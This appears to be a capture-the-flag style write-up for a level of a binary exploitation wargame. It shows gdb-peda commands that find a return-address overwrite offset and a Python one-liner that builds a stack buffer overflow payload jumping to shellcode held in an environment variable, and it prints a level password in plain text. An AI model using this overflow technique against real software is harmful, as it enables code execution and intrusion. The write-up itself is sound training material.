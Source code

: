 # Level01 -

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level01 | `uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL` |
| level02 | ``                                         |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

See our assembly interpretation in [source file](../source.c)

```shell
gdb-peda$ pattern create 500 input
gdb-peda$ run <<< "dat_wil\n$(cat input)"
gdb-peda$ pattern search
  Registers contain pattern buffer:
  EIP+0 found at offset: 326

./getenv SHELLCODE ~/level01
  0x7fffffffe769

echo "dat_wil" > exploit01
python -c 'print "A" * 326 + "\x69\xe7\xff\xff\xff\x7f"' >> exploit01
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncmp](https://linux.die.net/man/3/strncmp)

